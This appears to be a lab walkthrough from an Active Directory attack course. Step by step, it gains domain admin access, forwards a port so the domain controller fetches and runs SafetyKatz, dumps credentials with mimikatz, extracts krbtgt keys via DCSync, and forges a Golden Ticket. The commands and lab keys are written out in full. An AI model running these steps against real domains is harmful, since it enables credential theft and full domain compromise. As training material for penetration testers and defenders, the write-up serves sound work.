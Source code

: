 ```yaml
---
description: Task - Extract secrets from DA, Create a Golden Ticket, Use Golden Ticket
---
```


# Obj 8 Golden Ticket / DCSync

{% hint style="success" %}
This Module starts with creating a new session as DA. When running the below command do NOT use invishell. Simply open a terminal as Administrator and run the command.
{% endhint %}

### Use Rubeus to create a new session to start a new session as svcadmin which has DA privileges

```
C:\AD\Tools\Rubeus.exe asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

### Copy Loader.exe to the DC

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y
```

### We can use winrs or PSSession to access the DC

```
winrs -r:dcorp-dc cmd
```

### Now we are going to forward port 8080 on the DC back to us

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x
```

### Now we can access our file directory on our studentvm

```
C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe
```

### We should now have a mimikatz # term to run commands in

The below command will dump the creds of the DC

```
lsadump::lsa /patch
```

## <mark style="color:orange;">- DCSYNYC -</mark>&#x20;

### To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack

```
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

## <mark style="color:orange;">- GOLDEN TICKET -</mark>

### we can use BetterSafetyKatz.exe to create a Golden ticket

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:e28b3a5c60e087c8489a410a1199235efaf3b9f125972c7a1e7618a7469bfd6a /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

### Now we can access the DC

<pre><code>PS C:\AD\Tools> ls \\dcorp-dc\c$

We can also run WMI commands on the DC:

<strong>PS C:\AD\Tools> gwmi -Class win32_computersystem -ComputerName dcorp-dc
</strong></code></pre>
